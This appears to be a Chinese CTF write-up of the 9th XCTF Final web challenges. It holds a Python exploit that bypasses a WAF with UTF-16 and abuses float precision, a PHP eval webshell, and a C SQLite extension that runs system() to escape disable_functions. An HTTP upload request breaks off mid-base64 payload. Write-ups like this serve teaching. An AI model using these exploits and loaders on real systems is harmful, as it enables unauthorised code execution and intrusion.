



+++
title= "9th XCTF  Final"
slug= "9th-xctf-final"
description= "复盘了一下，挺好玩的赛制，就是表现的并不好"
date= "2025-10-30T19:35:02+08:00"
lastmod= "2025-10-30T19:35:02+08:00"
image= ""
license= ""
categories= ["赛题"]
tags= ["php","python","ssrf","xss"]

+++

这次分了两天，第一天是传统 CTF，第二天是 A&D 赛制，简单来说A&D就是awd，但是他和传统AWD有所不同，他的附件一般不止一个漏洞，而且进攻扣对方%30的分，也就是说只要能找到一个全场没有的洞，打一遍全场就站起来了🤬，但是我被打爆了，千万不要宕机啊🤯

## CTF

### wallet

首先看前后端依赖，一个是 express



一个是 fastify/http-proxy



前端js如下

```javascript
const app = require("fastify")({ logger: true });
const PORT = Number(process.env.PORT) || 3000;
const BACKEND_UPSTREAM = process.env.BACKEND_UPSTREAM || "http://backend:3000";

const trafficLogs = [];
const MAX_LOGS = 100;

function logTraffic(req, info) {
  const log = {
    timestamp: new Date().toISOString(),
    method: req.method,
    url: req.url,
    headers: req.headers,
    body: req.body,
    ...info
  };

  trafficLogs.unshift(log);
  if (trafficLogs.length > MAX_LOGS) {
    trafficLogs.pop();
  }
}

app.get("/admin/logs", async (req, res) => {
  res.send({
    message: "Recent traffic logs",
    count: trafficLogs.length,
    logs: trafficLogs
  });
});

app.get("/health", async (req, res) => {
  res.send({ status: "ok", service: "wallet-gateway", timestamp: Date.now() });
});

app.addHook('preParsing', async (req, reply, payload) => {
  const normalizedUrl = decodeURIComponent(req.url)
    .toLowerCase()
    .split(/[?#]/)[0]
    .replace(/\/+$/, '');

  if (normalizedUrl === "/transfer" && req.method === "POST") {
    let chunks = [];
    for await (const chunk of payload) {
      chunks.push(chunk);
    }
    const rawBody = Buffer.concat(chunks);

    if (rawBody[0] === 0xEF && rawBody[1] === 0xBB && rawBody[2] === 0xBF) {
      logTraffic(req, { blocked: true, reason: "Invalid encoding detected", bodyLength: rawBody.length });
      reply.code(400).send({
        error: "Bad Request",
        message: "Invalid character encoding"
      });
      return;
    }

    try {
      const body = JSON.parse(rawBody.toString());

      if (body.from && body.from.toLowerCase() === "admin") {
        logTraffic(req, { blocked: true, reason: "Transfer from admin account is forbidden" });
        reply.code(403).send({
          error: "Forbidden",
          message: "Transfer from admin account is not allowed"
        });
        return;
      }

      if (body.amount && body.amount > 50000) {
        logTraffic(req, { blocked: true, reason: "Large transfer detected" });
        reply.code(403).send({
          error: "Forbidden",
          message: "Large transfers are not allowed for security reasons"
        });
        return;
      }

      logTraffic(req, { blocked: false, validated: true });
    } catch (e) {
      logTraffic(req, { parseError: true, message: e.message, bodyLength: rawBody.length });
    }

    const { Readable } = require('stream');
    return Readable.from([rawBody]);
  }
});

app.register(require("@fastify/http-proxy"), {
  upstream: BACKEND_UPSTREAM,
  replyOptions: {
    rewriteRequestHeaders: (_req, headers) => {
      if (!headers["content-type"]) {
        headers["content-type"] = "application/json";
      }
      return headers;
    },
  },
});

app.listen({ port: PORT, host: "0.0.0.0" }, (err, address) => {
  if (err) {
    console.error(err);
    process.exit(1);
  }
  console.log(`Gateway server running at ${address}, proxying ${BACKEND_UPSTREAM}`);
  console.log("WAF rules active:");
  console.log("  - Block invalid encoding (BOM)");
  console.log("  - Block transfers from 'admin' account");
  console.log("  - Block large transfers (> 50000)");
});
```

有一个 waf 对于 transfer 路由，限制转账金额，以及admin自己给自己转账刷钱，直接 utf-16 编码绕过

```javascript
const express = require("express");
const fs = require("fs");
const fsPromises = require("fs/promises");
const path = require("path");

const app = express();
const PORT = Number(process.env.PORT) || 3000;

const FLAG_PATH = "/flag";
let FLAG = "";
try {
  FLAG = fs.readFileSync(FLAG_PATH, "utf-8").trim();
  if (!FLAG) {
    console.error(`Flag file ${FLAG_PATH} is empty`);
    process.exit(1);
  }
} catch (err) {
  console.error(`Unable to read flag from ${FLAG_PATH}: ${err.message}`);
  process.exit(1);
}

const users = new Map();
const REQUIRED_BALANCE = 100000.01;
const ADMIN_INITIAL_BALANCE = 100000;

users.set("admin", { balance: ADMIN_INITIAL_BALANCE });

app.use(express.json());

app.post("/register", (req, res) => {
  const { username } = req.body;

  if (!username || typeof username !== "string") {
    return res.status(400).json({ error: "Invalid username" });
  }

  if (username.length < 3 || username.length > 20) {
    return res.status(400).json({ error: "Username must be between 3 and 20 characters" });
  }

  if (users.has(username)) {
    return res.status(400).json({ error: "Username already exists" });
  }

  users.set(username, { balance: 0 });
  res.json({ message: "User registered successfully", username, balance: 0 });
});

app.post("/balance", (req, res) => {
  const { username } = req.body;

  if (!username || typeof username !== "string") {
    return res.status(400).json({ error: "Invalid username" });
  }

  const user = users.get(username);
  if (!user) {
    return res.status(404).json({ error: "User not found" });
  }

  res.json({ username, balance: user.balance });
});

app.post("/transfer", (req, res) => {
  const { from, to, amount } = req.body;

  if (!from || !to || typeof from !== "string" || typeof to !== "string") {
    return res.status(400).json({ error: "Invalid from or to username" });
  }

  if (typeof amount !== "number" || amount <= 0) {
    return res.status(400).json({ error: "Invalid amount" });
  }

  const fromUser = users.get(from);
  const toUser = users.get(to);

  if (!fromUser) {
    return res.status(404).json({ error: "From user not found" });
  }

  if (!toUser) {
    return res.status(404).json({ error: "To user not found" });
  }

  if (fromUser.balance < amount) {
    return res.status(400).json({ error: "Insufficient balance" });
  }

  fromUser.balance = fromUser.balance - amount;
  toUser.balance = toUser.balance + amount;

  let score = amount;
  score = Math.sqrt(score);
  score = Math.sqrt(score);
  score = score * score;
  score = score * score;

  const precision_error = score - amount;
  const bonus = Math.abs(precision_error) * 10000000;

  fromUser.balance = fromUser.balance + bonus;

  res.json({
    message: "Transfer successful",
    from,
    to,
    amount,
    bonus: bonus,
    newBalance: fromUser.balance
  });
});

app.get("/flag", (req, res) => {
  const username = req.query.username;

  if (!username || typeof username !== "string") {
    return res.status(400).json({ error: "Invalid username" });
  }

  const user = users.get(username);
  if (!user) {
    return res.status(404).json({ error: "User not found" });
  }

  if (user.balance >= REQUIRED_BALANCE) {
    res.json({ flag: FLAG });
  } else {
    res.status(403).json({
      error: "Insufficient balance",
      required: REQUIRED_BALANCE,
      current: user.balance
    });
  }
});

app.get("/users", (req, res) => {
  const userList = Array.from(users.entries()).map(([username, data]) => ({
    username,
    balance: data.balance
  }));
  res.json({ users: userList });
});

app.get("/", async (req, res) => {
  try {
    const html = await fsPromises.readFile(path.join(__dirname, "index.html"), "utf-8");
    res.type("html").send(html);
  } catch (err) {
    res.status(500).send("Error loading page");
  }
});

app.listen(PORT, () => {
  console.log(`Backend server running on port ${PORT}`);
  console.log(`Admin initial balance: ${ADMIN_INITIAL_BALANCE}`);
  console.log(`Required balance for flag: ${REQUIRED_BALANCE}`);
});
```

不用想都是解析漏洞，自己给自己转钱

```javascript
let score = amount;
score = Math.sqrt(score);
score = Math.sqrt(score);
score = score * score;
score = score * score;

const precision_error = score - amount;
const bonus = Math.abs(precision_error) * 10000000;

fromUser.balance = fromUser.balance + bonus;
```

这里的逻辑是`(amount^0.25)^4`。由于计算机在处理浮点数时存在精度限制， score 的计算结果会与原始的 amount 有一个微小的偏差。所以就能获得 flag 了，弄个exp

```python
import requests
import json
import math
import uuid
import sys

TARGET_IP = "154.36.152.109"
TARGET_PORT = 3000
BASE_URL = f"http://{TARGET_IP}:{TARGET_PORT}"
REQUIRED_BALANCE = 100000.01
INITIAL_ADMIN_BALANCE = 100000.0
TRANSFER_AMOUNT = 50000

def perform_transfer(from_user, to_user, amount):
    payload_str = json.dumps({"from": from_user, "to": to_user, "amount": amount})
    payload_utf16 = payload_str.encode('utf-16le')
    headers = {"Content-Type": "application/json; charset=utf-16le"}
    try:
        response = requests.post(f"{BASE_URL}/transfer", data=payload_utf16, headers=headers, timeout=10)
        return response.json() if response.status_code == 200 else None
    except requests.RequestException:
        return None

def exploit():
    attacker_username = f"attacker-{uuid.uuid4().hex[:8]}"
    requests.post(f"{BASE_URL}/register", json={"username": attacker_username}, timeout=5)

    first_transfer = perform_transfer("admin", "admin", TRANSFER_AMOUNT)
    if not first_transfer or "bonus" not in first_transfer:
        sys.exit(1)

    bonus_per_transfer = first_transfer["bonus"]
    if bonus_per_transfer <= 0:
        sys.exit(1)

    required_bonus = REQUIRED_BALANCE - INITIAL_ADMIN_BALANCE
    num_transfers = math.ceil(required_bonus / bonus_per_transfer) - 1

    for _ in range(num_transfers):
        if not perform_transfer("admin", "admin", TRANSFER_AMOUNT):
            sys.exit(1)

    if not perform_transfer("admin", attacker_username, REQUIRED_BALANCE):
        sys.exit(1)

    response = requests.get(f"{BASE_URL}/flag?username={attacker_username}", timeout=5)
    if response.status_code == 200:
        print(response.json().get("flag"))

if __name__ == "__main__":
    exploit()
```

### kinding（revenge）

开局给了个一句话

```php
<?php
highlight_file(__FILE__);
@eval($_POST['so_ez!k1ddi&g?']);

//so_ez!k1ddi%26g?=phpinfo%28%29%3B
```

拿到disabled

```php
proc_open,pcntl_waitpid,pcntl_wait,dl,ini_restore,mb_send_mail,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,passthru,symlink,link,syslog,imap_open,ld,mail,putenv,error_log,pcntl_alarm,pcntl_sigtimedwait,ini_set
```

过滤了很多函数，绕过`disable_functions`和`open_basedir(/var/www/html:/tmp)`，可以直接上传 so 文件，这让我想起kengwang师傅在 LILCTF2025 出的一道题，里面使用 curl 直接加载 so 文件进行getshell

https://blog.kengwang.com.cn/archives/668/ 但是现在的版本比较新，是8.4.x？所以就需要bypass，整了半天整不出来，后来看到存在sqlite3 扩展，推测其在`putenv` 被ban情况下也能完成任意路径下 so 加载

存在`SQLite3::loadExtension`方法可以加载库，但库必须位于配置选项`sqlite3.extension_dir`中指定的目录中 https://www.php.net/manual/zh/sqlite3.loadextension.php 

接着找到在`Pdo\Sqlite::loadExtension`也存在可以加载库的方法，好像没有配置限制

```c
#include <sqlite3ext.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

SQLITE_EXTENSION_INIT1

#ifdef _WIN32
__declspec(dllexport)
#endif
int sqlite3_exploit_init(
    sqlite3 *db,
    char **pzErrMsg,
    const sqlite3_api_routines *pApi
) {
    SQLITE_EXTENSION_INIT2(pApi);

    const char *command_file_path = "/tmp/1.txt";
    char command_buffer[512] = {0};
    FILE *file_handle;

    file_handle = fopen(command_file_path, "r");
    if (file_handle == NULL) {
        return SQLITE_OK;
    }

    if (fgets(command_buffer, sizeof(command_buffer), file_handle) != NULL) {
        command_buffer[strcspn(command_buffer, "\r\n")] = 0;
        if (strlen(command_buffer) > 0) {
            system(command_buffer);
        }
    }
    fclose(file_handle);
    return SQLITE_OK;
}
// gcc -shared -fPIC 1.c -o 1.so
// 查看是否加载成功
// nm 1.so
```

写入 so 文件

```http
POST / HTTP/1.1
Host: 173.32.20.154
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

Content-Length: 21284

%73%6f%5f%65%7a%21%6b%31%64%64%69%26%67%3f=%24base64%5Fso%20%3D%20%22f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAAAAAAAAAAAABAAAAAAAAAAAg2AAAAAAAAAAAAAEAAOAAJAEAAHAAbAAEAAAAEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAyAUAAAAAAADIBQAAAAAAAAAQAAAAAAAAAQAAAAUAAAAAEAAAAAAAAAAQAAAAAAAAABAAAAAAAAA9AgAAAAAAAD0CAAAAAAAAABAAAAAAAAABAAAABAAAAAAgAAAAAAAAACAAAAAAAAAAIAAAAAAAALQAAAAAAAAAtAAAAAAAAAAAEAAAAAAAAAEAAAAGAAAA8C0AAAAAAADwPQAAAAAAAPA9AAAAAAAAQAIAAAAAAABQAgAAAAAAAAAQAAAAAAAAAgAAAAYAAAAALgAAAAAAAAA%2BAAAAAAAAAD4AAAAAAADAAQAAAAAAAMABAAAAAAAACAAAAAAAAAAEAAAABAAAADgCAAAAAAAAOAIAAAAAAAA4AgAAAAAAACQAAAAAAAAAJAAAAAAAAAAEAAAAAAAAAFDldGQEAAAAECAAAAAAAAAQIAAAAAAAABAgAAAAAAAAJAAAAAAAAAAkAAAAAAAAAAQAAAAAAAAAUeV0ZAYAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEAAAAAAAAABS5XRkBAAAAPAtAAAAAAAA8D0AAAAAAADwPQAAAAAAABACAAAAAAAAEAIAAAAAAAABAAAAAAAAAAQAAAAUAAAAAwAAAEdOVQC1DaX3C6ra9C0veZQmRe09DUv69wAAAAACAAAACgAAAAEAAAAGAAAACgAEAAAQAAAAAAAACgAAAAArJSODdAZ5AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEAAAACAAAAAAAAAAAAAAAAAAAAAAAAAAkQAAABIAAAAAAAAAAAAAAAAAAAAAAAAAigAAABIAAAAAAAAAAAAAAAAAAAAAAAAAggAAABIAAAAAAAAAAAAAAAAAAAAAAAAAfAAAABIAAAAAAAAAAAAAAAAAAAAAAAAAAQAAACAAAAAAAAAAAAAAAAAAAAAAAAAAdgAAABIAAAAAAAAAAAAAAAAAAAAAAAAALAAAACAAAAAAAAAAAAAAAAAAAAAAAAAARgAAACIAAAAAAAAAAAAAAAAAAAAAAAAAYQAAABIADABJEQAAAAAAAOkAAAAAAAAAVQAAABEAFwA4QAAAAAAAAAgAAAAAAAAAAF9fZ21vbl9zdGFydF9fAF9JVE1fZGVyZWdpc3RlclRNQ2xvbmVUYWJsZQBfSVRNX3JlZ2lzdGVyVE1DbG9uZVRhYmxlAF9fY3hhX2ZpbmFsaXplAHNxbGl0ZTNfYXBpAHNxbGl0ZTNfZXhwbG9pdF9pbml0AGZvcGVuAGZnZXRzAHN0cmNzcG4Ac3lzdGVtAGZjbG9zZQBsaWJjLnNvLjYAR0xJQkNfMi4yLjUAAAABAAIAAgACAAIAAQACAAEAAgABAAEAAAABAAEAmAAAABAAAAAAAAAAdRppCQAAAgCiAAAAAAAAAPA9AAAAAAAACAAAAAAAAABAEQAAAAAAAPg9AAAAAAAACAAAAAAAAAAAEQAAAAAAAChAAAAAAAAACAAAAAAAAAAoQAAAAAAAAMA%2FAAAAAAAABgAAAAEAAAAAAAAAAAAAAMg%2FAAAAAAAABgAAAAYAAAAAAAAAAAAAANA%2FAAAAAAAABgAAAAgAAAAAAAAAAAAAANg%2FAAAAAAAABgAAAAsAAAAAAAAAAAAAAOA%2FAAAAAAAABgAAAAkAAAAAAAAAAAAAAABAAAAAAAAABwAAAAIAAAAAAAAAAAAAAAhAAAAAAAAABwAAAAMAAAAAAAAAAAAAABBAAAAAAAAABwAAAAQAAAAAAAAAAAAAABhAAAAAAAAABwAAAAUAAAAAAAAAAAAAACBAAAAAAAAABwAAAAcAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEiD7AhIiwW9LwAASIXAdAL%2F0EiDxAjDAAAAAAAAAAAA%2FzXKLwAA%2FyXMLwAADx9AAP8lyi8AAGgAAAAA6eD%2F%2F%2F%2F%2FJcIvAABoAQAAAOnQ%2F%2F%2F%2F%2FyW6LwAAaAIAAADpwP%2F%2F%2F%2F8lsi8AAGgDAAAA6bD%2F%2F%2F%2F%2FJaovAABoBAAAAOmg%2F%2F%2F%2F%2FyVaLwAAZpAAAAAAAAAAAEiNPZkvAABIjQWSLwAASDn4dBVIiwUWLwAASIXAdAn%2F4A8fgAAAAADDDx%2BAAAAAAEiNPWkvAABIjTViLwAASCn%2BSInwSMHuP0jB%2BANIAcZI0f50FEiLBeUuAABIhcB0CP%2FgZg8fRAAAww8fgAAAAADzDx76gD0lLwAAAHUrVUiDPcouAAAASInldAxIiz0GLwAA6Fn%2F%2F%2F%2FoZP%2F%2F%2F8YF%2FS4AAAFdww8fAMMPH4AAAAAA8w8e%2Bul3%2F%2F%2F%2FVUiJ5UiB7DACAABIib3o%2Ff%2F%2FSIm14P3%2F%2F0iJldj9%2F%2F9IiwVoLgAASIuV2P3%2F%2F0iJEEiNBX8OAABIiUX4SI2V8P3%2F%2F7gAAAAAuUAAAABIidfzSKtIjRVoDgAASItF%2BEiJ1kiJx%2Bi%2B%2Fv%2F%2FSIlF8EiDffAAdQe4AAAAAOtsSItV8EiNhfD9%2F%2F%2B%2BAAIAAEiJx%2BiE%2Fv%2F%2FSIXAdD5IjRUlDgAASI2F8P3%2F%2F0iJ1kiJx%2BhW%2Fv%2F%2FxoQF8P3%2F%2FwBIjYXw%2Ff%2F%2FD7YAhMB0D0iNhfD9%2F%2F9IicfoIf7%2F%2F0iLRfBIicfoBf7%2F%2F7gAAAAAycMAAEiD7AhIg8QIwwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA